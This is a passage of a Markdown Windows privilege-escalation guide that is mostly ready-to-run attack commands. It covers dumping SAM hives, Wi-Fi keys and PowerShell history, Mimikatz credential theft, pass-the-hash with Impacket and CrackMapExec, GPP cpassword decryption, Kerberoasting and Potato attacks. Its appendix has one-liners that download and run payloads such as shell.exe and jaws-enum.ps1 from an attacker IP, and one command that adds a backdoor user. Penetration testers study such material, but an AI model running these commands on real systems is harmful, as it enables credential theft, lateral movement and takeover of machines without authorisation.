runas /savedcred /user:.\administrator "C:\Windows\Temp\shell.exe"
```

### 10.2 Finding Sensitive Files

```cmd
REM Unattended installation files — contain base64 passwords
dir /s /b C:\unattend.xml 2>nul
dir /s /b C:\sysprep.inf 2>nul
dir /s /b C:\sysprep\sysprep.xml 2>nul
dir /s /b C:\Windows\system32\sysprep\unattend.xml 2>nul
dir /s /b C:\Windows\panther\unattend.xml 2>nul

REM IIS config files
dir /s /b C:\inetpub\wwwroot\web.config 2>nul
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr "connectionString\|password"

REM MSSQL config
dir /s /b "C:\Program Files\Microsoft SQL Server" | findstr ".config\|.ini" 2>nul
```

```powershell
# Search for password strings in common config files
$searchPaths = @('C:\inetpub', 'C:\xampp', 'C:\wamp', 'C:\Users')
$patterns = @('password', 'passwd', 'pwd', 'connectionstring', 'apikey')

Get-ChildItem -Path $searchPaths -Recurse -Include @('*.xml','*.config','*.ini','*.txt','*.json') -EA 0 |
    Select-String -Pattern ($patterns -join '|') -CaseSensitive:$false |
    Select-Object Path, LineNumber, Line |
    Where-Object { $_.Line -notmatch '<!--' }
```

### 10.3 PowerShell History

```powershell
# PowerShell command history (goldmine for passwords typed at CLI)
Get-Content (Get-PSReadlineOption).HistorySavePath

# Or directly
type C:\Users\%USERNAME%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

```cmd
REM Cmd equivalent — doskey history doesn't persist, but check:
dir /s /b C:\Users\*\ConsoleHost_history.txt 2>nul
```

### 10.4 WiFi Passwords

```cmd
REM List saved WiFi profiles
netsh wlan show profiles

REM Dump password for a specific profile
netsh wlan show profile name="SSID_Name" key=clear

REM Loop through all and dump
for /f "tokens=2 delims=:" %i in ('netsh wlan show profiles ^| findstr "Profile"') do netsh wlan show profile name=%i key=clear 2>nul
```

### 10.5 SAM Database (Local Hashes)

```cmd
REM Requires SYSTEM — extract SAM hive
reg save HKLM\SAM C:\Temp\sam.hive
reg save HKLM\SYSTEM C:\Temp\system.hive
reg save HKLM\SECURITY C:\Temp\security.hive

REM Then exfiltrate and run on attacker machine:
REM impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

---

## 11. Potato Attacks

### 11.1 Potato Family Overview



### 11.2 Comparison Table

| Tool | Windows Versions | Technique | Requires |
|------|-----------------|-----------|----------|
| **Hot Potato** | 7, 8, 2008 | NBNS + WPAD + NTLM relay | Network |
| **JuicyPotato** | 7–10 (pre-1809), 2008–2016 | DCOM NTLM impersonation | CLSID |
| **PrintSpoofer** | 10 1809+, 2019 | Print Spooler named pipe | Spooler service |
| **RoguePotato** | 10 1809+, 2019+ | OXID resolver redirect | Attacker listener |
| **SweetPotato** | All modern | Combined | Varies |
| **EfsPotato** | Various | EFS RPC | EFS service |

### 11.3 Hot Potato (Historical Reference)

Hot Potato combined three techniques for Windows 7/8/2008:
1. **NBNS Spoofing** — respond to broadcast NBNS queries with attacker IP
2. **WPAD Proxy** — serve a malicious WPAD config to redirect traffic
3. **NTLM Relay** — relay the SYSTEM NTLM auth to the local SMB service

```cmd
REM Historical — potato.exe (not reliable on modern systems)
potato.exe -ip 127.0.0.1 -cmd "net user hacker P@ss123 /add" -disable_exhaust true
```

---

## 12. Pass-the-Hash for Local Admin

> **Note:** Pass-the-Hash works because NTLM authentication uses the NT hash directly without requiring the plaintext password. You only need the hash, not the actual password.

### 12.1 Dumping Hashes with Mimikatz

```cmd
REM Run Mimikatz (requires admin/SYSTEM)
mimikatz.exe

REM In Mimikatz interactive mode:
privilege::debug
token::elevate
lsadump::sam          # Local SAM hashes
lsadump::lsa /patch   # LSA secrets
sekurlsa::logonpasswords  # Cached plaintext + hashes
```

### 12.2 Pass-the-Hash with Mimikatz

```cmd
REM Spawn cmd.exe as Administrator using only the hash
sekurlsa::pth /user:Administrator /domain:. /ntlm:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c /run:cmd.exe

REM Remote machine
sekurlsa::pth /user:Administrator /domain:WORKGROUP /ntlm:<HASH> /run:"cmd.exe /c \\\\target\\C$\\Windows\\Temp\\shell.exe"
```

### 12.3 Pass-the-Hash with Impacket

```bash
# PsExec-style remote shell
impacket-psexec -hashes :NTLM_HASH administrator@10.10.10.5

# WMI-based (more stealthy)
impacket-wmiexec -hashes :NTLM_HASH administrator@10.10.10.5

# SMBExec (no binary dropped on target)
impacket-smbexec -hashes :NTLM_HASH administrator@10.10.10.5

# Full LMHASH:NTLMHASH format
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c administrator@10.10.10.5
```

### 12.4 Pass-the-Hash with CrackMapExec

```bash
# Single target
crackmapexec smb 10.10.10.5 -u Administrator -H NTLM_HASH

# Subnet spray
crackmapexec smb 10.10.10.0/24 -u Administrator -H NTLM_HASH --local-auth

# Execute command
crackmapexec smb 10.10.10.5 -u Administrator -H NTLM_HASH -x "whoami"

# Dump SAM
crackmapexec smb 10.10.10.5 -u Administrator -H NTLM_HASH --sam
```

### 12.5 Overpass-the-Hash (Pass-the-Key)

Convert NTLM hash to a Kerberos ticket:

```cmd
REM In Mimikatz
sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:<hash> /run:cmd.exe

REM Then use klist to verify ticket was created
klist
```

---

## 13. Group Policy Abuse

### 13.1 Finding GPO Files

```cmd
REM SYSVOL is always accessible to all domain users
dir \\domain.local\SYSVOL\domain.local\Policies\ /s /b

REM Search for groups.xml (contains encrypted passwords)
dir /s /b \\domain.local\SYSVOL\ 2>nul | findstr "groups.xml"
dir /s /b \\domain.local\SYSVOL\ 2>nul | findstr "Services.xml\|Scheduledtasks.xml\|DataSources.xml"
```

```powershell
# PowerShell — find all interesting GPP files
$sysvol = "\\$env:USERDNSDOMAIN\SYSVOL"
Get-ChildItem -Path $sysvol -Recurse -Include @('groups.xml','services.xml','scheduledtasks.xml','datasources.xml') -EA 0 |
    Select-Object FullName, LastWriteTime
```

### 13.2 Extracting cpassword from groups.xml

A `groups.xml` file may look like:

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{...}">
  <User clsid="{...}" name="Administrator" image="2" changed="2020-01-01 12:00:00">
    <Properties action="U" newName="" fullName="" description=""
      cpassword="VPe/o9YRyz2cksnYRbNeQj35CM8UZPkyDt98ouA0HPc"
      changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" userName="Administrator"/>
  </User>
</Groups>
```

```bash
# On Kali — decrypt cpassword (Microsoft published the AES key)
gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35CM8UZPkyDt98ouA0HPc
# Output: Password1

# With Metasploit
use post/windows/gather/credentials/gpp
```

```powershell
# PowerShell GPP decrypt function
function Get-DecryptedCpassword {
    param([string]$Cpassword)
    $Padding = "=" * (4 - ($Cpassword.Length % 4))
    if ($Padding -eq "====") { $Padding = "" }
    $Base64 = $Cpassword.Replace('-','+').Replace('_','/') + $Padding
    $AesKey = [byte[]]@(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,
                         0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)
    $IV = [byte[]]@(0) * 16
    $aes = [System.Security.Cryptography.Aes]::Create()
    $aes.Key = $AesKey; $aes.IV = $IV; $aes.Mode = "CBC"; $aes.Padding = "Zeros"
    $decrypted = $aes.CreateDecryptor().TransformFinalBlock([Convert]::FromBase64String($Base64), 0, [Convert]::FromBase64String($Base64).Length)
    [System.Text.Encoding]::Unicode.GetString($decrypted).TrimEnd([char]0)
}
```

### 13.3 Kerberoasting

If you have domain user credentials, request service tickets for accounts with SPNs:

```powershell
# Find Kerberoastable accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName |
    Select-Object SamAccountName, ServicePrincipalName

# Request tickets (PowerView)
. .\PowerView.ps1
Invoke-Kerberoast -OutputFormat Hashcat | fl
```

```bash
# From Linux with impacket
impacket-GetUserSPNs -request -dc-ip 10.10.10.1 domain.local/user:password

# Crack with hashcat
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
```

---

## 14. Automated Enumeration Tools

> **Note:** Always run manual checks first to understand what you're looking for. Use automated tools to catch what you may have missed, not as a replacement for understanding.

### 14.1 WinPEAS

The most comprehensive automated Windows enumeration script.

```cmd
REM Download from PEASS-ng GitHub releases
REM Run executable version
winpeas.exe

REM Run batch version (no AV-flagging issues with .bat)
winpeas.bat

REM Run specific checks only
winpeas.exe systeminfo
winpeas.exe servicesinfo
winpeas.exe applicationsinfo
winpeas.exe networkinfo
winpeas.exe userinfo
```

### 14.2 PowerUp (PowerSploit)

```powershell
# Load PowerUp
. .\PowerUp.ps1

# Run all checks
Invoke-AllChecks

# Individual checks
Get-UnquotedService          # Unquoted service paths
Get-ModifiableServiceFile    # Writable service executables
Get-ModifiableService        # Writable service configs
Get-RegistryAlwaysInstallElevated  # AlwaysInstallElevated
Get-RegistryAutoRun          # Writable autorun entries
Get-ModifiableScheduledTaskFile    # Writable task executables
Get-UnattendedInstallFile    # Unattended install files
Get-Webconfig                # Web.config credentials
Get-ApplicationHost          # ApplicationHost.config credentials
```

### 14.3 SharpUp

C# port of PowerUp — harder to detect with AV:

```cmd
SharpUp.exe audit

REM Specific modules
SharpUp.exe audit UnquotedServicePath
SharpUp.exe audit ModifiableServices
SharpUp.exe audit AlwaysInstallElevated
```

### 14.4 Windows Exploit Suggester — Next Generation (wesng)

```bash
REM Step 1: Get systeminfo output from target
systeminfo > C:\Temp\sysinfo.txt

REM Step 2: Transfer to attacker machine, then:
pip install wesng
python wes.py --update
python wes.py sysinfo.txt
python wes.py sysinfo.txt --impact "Elevation of Privilege"
python wes.py sysinfo.txt --exploits-only
```

### 14.5 Seatbelt

Comprehensive host-situational-awareness tool:

```cmd
REM All checks
Seatbelt.exe -group=all

REM Specific groups
Seatbelt.exe -group=system
Seatbelt.exe -group=user
Seatbelt.exe -group=misc

REM Specific checks
Seatbelt.exe TokenPrivileges
Seatbelt.exe CredEnum
Seatbelt.exe DotNet
Seatbelt.exe InterestingFiles
Seatbelt.exe ProcessCreationEvents
```

### 14.6 JAWS (Just Another Windows Script)

```powershell
# Run directly from attacker web server
Invoke-Expression (New-Object Net.WebClient).DownloadString('http://10.10.10.1/jaws-enum.ps1')

# Or download and run locally
Invoke-WebRequest -Uri 'http://10.10.10.1/jaws-enum.ps1' -OutFile 'C:\Temp\jaws.ps1'
. C:\Temp\jaws.ps1
```

### 14.7 Watson

Finds missing patches for local privilege escalation exploits:

```cmd
Watson.exe

REM Output example:
REM [*] OS Build Number: 17763
REM [!] CVE-2019-0841 : VULNERABLE
REM [!] CVE-2019-1064 : VULNERABLE
```

---

## 15. Full Windows PrivEsc Cheat Sheet

| Technique | Key Command | Requirement | Typical Result |
|-----------|------------|-------------|----------------|
| **Token Impersonation** | `PrintSpoofer.exe -i -c cmd` | `SeImpersonatePrivilege` | SYSTEM |
| **JuicyPotato** | `JuicyPotato.exe -l 1337 -p cmd.exe -t * -c {CLSID}` | `SeImpersonatePrivilege`, Win ≤ 2016 | SYSTEM |
| **RoguePotato** | `RoguePotato.exe -r <attacker> -e shell.exe -l 9999` | `SeImpersonatePrivilege`, socat redirect | SYSTEM |
| **Unquoted Service** | `wmic service get name,pathname | findstr /v """` | Writable dir in path, restartable service | SYSTEM/admin |
| **Weak Service Perms** | `accesschk.exe -uwcqv "Users" *` | `SERVICE_CHANGE_CONFIG` | SYSTEM |
| **DLL Hijacking** | Procmon + craft DLL | Writable PATH dir, restartable process | Inherits process level |
| **AlwaysInstallElevated** | `msiexec /quiet /qn /i evil.msi` | Both reg keys = 1 | SYSTEM |
| **Scheduled Task** | `schtasks /query /fo LIST /v` | Writable task executable | SYSTEM (if task runs as SYSTEM) |
| **Registry Autorun** | `accesschk.exe -uvwqk HKLM\...\Run` | Writable autorun path | SYSTEM/admin on reboot |
| **UAC Bypass** | fodhelper registry hijack | Member of Administrators | High integrity |
| **Saved Creds** | `cmdkey /list` + `runas /savedcred` | Saved credential exists | That user's privileges |
| **GPP cpassword** | `gpp-decrypt <cpassword>` | Domain user, SYSVOL access | Varies (often domain admin) |
| **Pass-the-Hash** | `psexec.py -hashes :HASH admin@target` | Local admin hash | That account's privileges |
| **AlwaysInstallElevated** | `reg query HKCU\...\AlwaysInstallElevated` | Both keys = 0x1 | SYSTEM |
| **Kerberoasting** | `Invoke-Kerberoast` | Domain user credentials | Service account creds |
| **SeBackupPrivilege** | `robocopy /b C:\Windows\System32\config\ C:\Temp\` | `SeBackupPrivilege` | SAM/NTDS dump |
| **SeDebugPrivilege** | Mimikatz `sekurlsa::logonpasswords` | `SeDebugPrivilege` | All cached creds |

---

## 16. Privilege Escalation Decision Tree



---

## Appendix A: Common Kernel Exploits Reference

| CVE | Name | Affected Versions | Notes |
|-----|------|-------------------|-------|
| CVE-2016-3225 | MS16-032 | Win 7–10, Server 2008–2012 | Secondary logon service |
| CVE-2019-0841 | — | Win 10 1809 | AppX package manager |
| CVE-2019-1064 | — | Win 10 1903 | AppX deployment service |
| CVE-2019-1388 | UAC cert dialog | Win 7–10, Server 2008–2016 | UAC bypass via cert link |
| CVE-2020-0787 | BITS EoP | Win 7–10, Server 2008–2019 | Background intelligent transfer |
| CVE-2021-1675 | PrintNightmare | All + Server 2019 | Print spooler RCE + LPE |
| CVE-2021-36934 | HiveNightmare / SeriousSAM | Win 10 1809+ | VSS shadow copy SAM read |
| CVE-2022-21999 | SpoolFool | Win 10/11, Server 2019/2022 | Print spooler local priv esc |

```powershell
# Quick HiveNightmare check (CVE-2021-36934)
icacls C:\Windows\System32\config\SAM | findstr "Users"
# If "BUILTIN\Users:(I)(RX)" appears — you can read SAM without admin
```

---

## Appendix B: Quick File Transfer Methods

```powershell
# Certutil (LOLBin — Lives-Off-the-Land Binary)
certutil.exe -urlcache -split -f http://10.10.10.1/shell.exe C:\Temp\shell.exe

# PowerShell WebClient
(New-Object Net.WebClient).DownloadFile('http://10.10.10.1/shell.exe','C:\Temp\shell.exe')
Invoke-WebRequest -Uri 'http://10.10.10.1/shell.exe' -OutFile 'C:\Temp\shell.exe'

# Bitsadmin
bitsadmin /transfer job /download /priority high http://10.10.10.1/shell.exe C:\Temp\shell.exe

# SMB (impacket smbserver on attacker machine)
# impacket-smbserver share /tmp/share -smb2support
copy \\10.10.10.1\share\shell.exe C:\Temp\shell.exe
```

---

## Appendix C: Useful One-Liners

```powershell
# Find all files with "password" in the name
Get-ChildItem C:\ -Recurse -Include @('*password*','*credential*','*secret*') -EA 0 | Select-Object FullName

# Find world-writable directories
Get-ChildItem C:\ -Directory -Recurse -EA 0 | ForEach-Object {
    $acl = Get-Acl $_.FullName -EA 0
    if ($acl.Access | Where-Object { $_.IdentityReference -match 'Everyone|Users' -and $_.FileSystemRights -match 'Write|FullControl' }) {
        $_.FullName
    }
}

# List all non-standard services
Get-WmiObject Win32_Service |
    Where-Object { $_.PathName -notmatch 'System32|SysWOW64|MsMpEng' } |
    Select-Object Name, State, StartName, PathName

# Processes running as SYSTEM
Get-Process -IncludeUserName | Where-Object { $_.UserName -match 'SYSTEM' } | Select-Object Name, Id, UserName

# Check for writable directories in PATH
$env:Path -split ';' | Where-Object { $_ -and (Test-Path $_) } | ForEach-Object {
    $acl = Get-Acl $_
    if ($acl.Access | Where-Object { $_.FileSystemRights -match 'Write' -and $_.IdentityReference -notmatch 'Administrators|SYSTEM|TrustedInstaller' }) {
        Write-Host "[!] Writable PATH entry: $_"
    }
}
```

---

*References: HackTricks Windows PrivEsc, PayloadsAllTheThings, Offensive Security PWK, TCM Security Windows Privilege Escalation course, MITRE ATT&CK TA0004.*
